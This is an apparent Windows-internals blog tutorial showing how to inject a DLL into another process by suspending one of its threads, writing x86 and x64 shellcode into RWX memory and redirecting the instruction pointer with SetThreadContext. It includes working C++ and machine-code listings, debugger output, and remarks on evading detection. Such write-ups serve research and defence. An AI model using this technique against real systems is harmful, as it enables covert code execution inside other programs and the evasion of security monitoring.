


---
title: DLL Injection with SetThreadContext
categories: DEV,C++,Internals,Security,Tutorial
weblogName: Pavel's blog
postId: 2807480
dontInferFeaturedImage: true
---# DLL Injection with SetThreadContext
There are several techniques available for injecting a DLL into a process. Each has its own strengths and drawbacks.
The simplest one uses the [CreateRemoteThread](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682437(v=vs.85).aspx) function to create a new thread in the target process and point the thread's start function to the the [LoadLibrary](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396) function, as LoadLibray and a thread's starting function have the same prototype from a binary perspective (both accept a pointer).

This method is the easiest to use but also the most visible. Creating a new thread can be "noticed" in several ways, such as with an ETW event. If a driver is present and is hooking thread creation with [PsSetCreateThreadNotifyRoutine](https://msdn.microsoft.com/library/windows/hardware/ff559954), it will naturally be notified.

A stealthier technique is using an existing thread to do the deed. One way to go about it is using a [APC to attach to a victim thread in the target process](http://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/) by calling [QueueUserApc](https://msdn.microsoft.com/EN-US/library/windows/desktop/ms684954(v=vs.85).aspx) and again pointing the APC at *LoadLibrary*. The potential issue with APCs is that the thread must enter an alertable state to actually "process" the APC and execute our *LoadLibrary* call. Unfortunately, there is no guarantee that a thread will ever put itself in an alertable state. The caller can try all other threads in the process, but in some cases that will not work. A canonical example is **cmd.exe**, where its single thread never enters an alertable state, as far as I can tell.

This post is about yet another way to make a target process call *LoadLibrary*, but this time by manipulating the context of an existing thread, without it "knowing" about it. The thread's instruction pointer is diverted to a custom piece of code and then redirected back. This method is very difficult to detect, since it's just a thread doing work.
Let's see how to accomplish something like this in both x86 and x64.

The first thing we would need is to locate the target process and a selected thread within that process. Technically, it can be any thread from the target process, but a waiting thread will not run our code unless it's ready to run, so it's better to select a thread that is running or likely to run to get the DLL loaded as early as possible.

Once we set our sights on a target process and one of its threads, we need to open them with appropriate access:
```cpp
//
// open handle to process
//
auto hProcess = ::OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, pid);
if (!hProcess)
    return Error("Failed to open process handle");

//
// open handle to thread
//    
auto hThread = ::OpenThread(THREAD_SET_CONTEXT | THREAD_SUSPEND_RESUME | THREAD_GET_CONTEXT, FALSE, tid);
if (!hThread)
    return Error("Failed to open thread handle");

```

We need the `PROCESS_VM_OPERATION` and `PROCESS_VM_WRITE` for the process because we're going to write the target code inside the process. For the thread - we must be able to change its context and for that we must suspend it while we do that.

The injection itself requires several steps. We start by allocating memory in the target process with the execute protection included, since our code would live there:
```cpp
const auto page_size = 1 << 12;

auto buffer = static_cast<char*>(::VirtualAllocEx(hProcess, nullptr, page_size, 
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE));

```
We allocate one page of RWX memory. We don't actually need that much, but the memory manager works in pages anyway, so we might as well explicitly allocate a complete page.

What kind of code should we place in the target process? Clearly, we want to call `LoadLibrary`, but it's much trickier than that. We need to call `LoadLibrary` and then resume execution where the thread left off. So first we suspend the thread and then capture its execution context:

```cpp
if (::SuspendThread(hThread) == -1)
    return false;

CONTEXT context;
context.ContextFlags = CONTEXT_FULL;
if (!::GetThreadContext(hThread, &context))
    return false;

```
Next, we need some code to copy to the target process. This code must be crafted in assembly, and must match the "bitness" of the target process (in any case the to-be-injected DLL must match the target process bitness). For x86, we can write the following in Visual Studio and copy the resulting machine language bytes:
```cpp
void __declspec(naked) InjectedFunction() {
    __asm {
        pushad
        push        11111111h   ; the DLL path argument 
        mov         eax, 22222222h  ; the LoadLibraryA function address
        call        eax
        popad
        push        33333333h   ; the code to return to
        ret
    }
}
```
The function is decorated with the [`__declspec(naked)`](https://docs.microsoft.com/en-us/cpp/cpp/naked-cpp) attribute which tells the compiler not to emit the usual prolog/epilogue instructions - we want the pure code. The weird numbers in the code are placeholders we need to fix before we copy the code to the target process.

In the source code for this demo I packaged the resulting machine code into a byte array like so:
```cpp
BYTE code[] = {
    0x60,
    0x68, 0x11, 0x11, 0x11, 0x11,
    0xb8, 0x22, 0x22, 0x22, 0x22,
    0xff, 0xd0,
    0x61,
    0x68, 0x33, 0x33, 0x33, 0x33,
    0xc3
};
```
The bytes correspond to the instructions above. Now we fix the dummy values:
```cpp
auto loadLibraryAddress = ::GetProcAddress(::GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");

// set dll path
*reinterpret_cast<PVOID*>(code + 2) = static_cast<void*>(buffer + page_size / 2);    
// set LoadLibraryA address
*reinterpret_cast<PVOID*>(code + 7) = static_cast<void*>(loadLibraryAddress);
// jump address (back to the original code)
*reinterpret_cast<unsigned*>(code + 0xf) = context.Eip;
```
First, we get the address of `LoadLibraryA`, since that's the function we'll use to load the DLL in the target address. `LoadLibraryW` would work just as well, but the ASCII version is a bit simpler to work with. The address of the DLL path is set to be 2KB into the buffer, which is quite arbitrary.

Next we write the modified code and the DLL path to the taget process:
```cpp
//
// copy the injected function into the buffer
//

if (!::WriteProcessMemory(hProcess, buffer, code, sizeof(code), nullptr))
    return false;

//
// copy the DLL name into the buffer
//
if (!::WriteProcessMemory(hProcess, buffer + page_size / 2, dllPath, ::strlen(dllPath) + 1, nullptr))
    return false;
```
The last thing to do is to set the new instruction pointer to the copied code and resume thread execution:
```cpp
context.Eip = reinterpret_cast<DWORD>(buffer);

if (!::SetThreadContext(hThread, &context))
    return false;

::ResumeThread(hThread);
```

This is it for the 32 bit version.

Debugging this kind of scenario is non-trivial, since we need to attach the target process and follow the code from there. In the following example, I launched the 32 bit version of *notepad* from **\Windows\SysWow64** directory (on a 64-bit system). The command line of the demo project allows setting the target process ID and the path to the DLL to inject. I've set that up with Visual Studio and placed a breakpoint just before the call to [SetThreadContext](https://msdn.microsoft.com/EN-US/library/windows/desktop/ms680632(v=vs.85).aspx). The console window shows the virtual address into which the code was copied to:



Now we can attach **WinDbg** to the *notepad* process and look at the code at that address:
```
0:005> u 04A00000
04a00000 60              pushad
04a00001 680008a004      push    4A00800h
04a00006 b8805a3b76      mov     eax,offset KERNEL32!LoadLibraryAStub (763b5a80)
04a0000b ffd0            call    eax
04a0000d 61              popad
04a0000e 685c29e476      push    offset win32u!NtUserGetMessage+0xc (76e4295c)
04a00013 c3              ret
```
We can clearly see our modified code, where `LoadLibraryA` is called and then the code resumes somewhere inside `NtUserGetMessage`, which is quite expected for a message pump. e can even set a breakpoint right there:
```
bp 04A00000
```
Now we can let notepad go and then the injecting process. And sure enough, we hit the breakpoint. Here's the breakpoint and call stack:
```
Breakpoint 0 hit
eax=00000001 ebx=01030000 ecx=00000000 edx=00000000 esi=0093fbe4 edi=01030000
eip=04a00000 esp=0093fba0 ebp=0093fbb8 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
04a00000 60              pushad
0:000> k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 0093fb9c 7570fecc 0x4a00000
01 0093fbb8 01037219 USER32!GetMessageW+0x2c
02 0093fc38 0104b75c notepad!WinMain+0x18e
03 0093fccc 763b8744 notepad!__mainCRTStartup+0x142
04 0093fce0 7711582d KERNEL32!BaseThreadInitThunk+0x24
05 0093fd28 771157fd ntdll!__RtlUserThreadStart+0x2f
06 0093fd38 00000000 ntdll!_RtlUserThreadStart+0x1b
```
We can step by step if we wish, but letting notepad go would load our DLL, calling `DllMain` as usual where we can do almost anything:



The 64-bit code I used is trickier, and I'm not 100% sure it works in all cases, some more testing is needed. Here's the code:
```cpp
BYTE code[] = {
    // sub rsp, 28h
    0x48, 0x83, 0xec, 0x28,                           
    // mov [rsp + 18], rax
    0x48, 0x89, 0x44, 0x24, 0x18,                     
    // mov [rsp + 10h], rcx
    0x48, 0x89, 0x4c, 0x24, 0x10,
    // mov rcx, 11111111111111111h
    0x48, 0xb9, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11,     
    // mov rax, 22222222222222222h
    0x48, 0xb8, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22,
    // call rax
    0xff, 0xd0,
    // mov rcx, [rsp + 10h]
    0x48, 0x8b, 0x4c, 0x24, 0x10,
    // mov rax, [rsp + 18h]
    0x48, 0x8b, 0x44, 0x24, 0x18,
    // add rsp, 28h
    0x48, 0x83, 0xc4, 0x28,
    // mov r11, 333333333333333333h
    0x49, 0xbb, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33,
    // jmp r11
    0x41, 0xff, 0xe3
};
```
I won't go into the details, but it looks different from the x86 version because the calling convention in x64 is different that x86 __stdcall. For example, the first four integer arguments are passed in RCX, RDX, R8 and R9 rather than on the stack. In our case, RCX is enough as `LoadLibraryA` only takes a single argument.

The modifications to the code naturally use different offsets:
```cpp
// set dll path
*reinterpret_cast<PVOID*>(code + 0x10) = static_cast<void*>(buffer + page_size / 2);
// set LoadLibraryA address
*reinterpret_cast<PVOID*>(code + 0x1a) = static_cast<void*>(loadLibraryAddress);
// jump address (back to the original code)
*reinterpret_cast<unsigned long long*>(code + 0x34) = context.Rip;
```

So there you have it - a DLL injected with an existing thread by changing its context. This method is difficult to detect, as loading a DLL is not an unusual event. One possible way would be to locate executable pages and compare their addresses to known modules in the process. The injecting process can, however, after injection is complete (which could be signaled by some event object, for instance) deallocate the injected function's memory, so there is only a small window of opportunity to "notice" the executable page.

The complete demo project is on my [Github](http://github.com) repo named [DllInjectionWithThreadContext](https://github.com/zodiacon/DllInjectionWithThreadContext).